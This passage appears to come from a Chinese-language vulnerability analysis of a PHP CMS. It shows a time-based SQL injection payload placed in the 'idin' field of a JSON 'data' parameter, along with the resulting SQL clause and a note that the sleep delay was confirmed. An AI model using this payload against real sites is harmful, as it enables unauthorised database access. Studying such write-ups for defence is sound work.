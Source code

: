 有好几个`type_id`为`arclist`的情况，我们就可以构造 payload 为

```php
data={"m_picplayer":{"_alias":"abc","idin":"1,1 and if(1,1 and sleep(7.1),1)"}}
```

![image-20231108182526565](assets/1702521293-b6d5db8fae77e54ab285bf85c56792a7.jpg)

拼接的语句是

```php
 AND l.id IN(1,1 and if(1,1 and sleep(4),1)) 
```

最后返回 content 后调用`$this->model('list')->arc_count()`，得到最终执行的 sql 语句

![image-20231108183037738](assets/1702521293-6b3c2b0246948772969decd646642569.jpg)

测试也是成功延时，时间是两倍

![f779542ea43ead675f9ed7caeed66c4d6585028942b11.jpg](assets/1702521293-847684cffc6d60e7406859a5f0f7636e.jpg)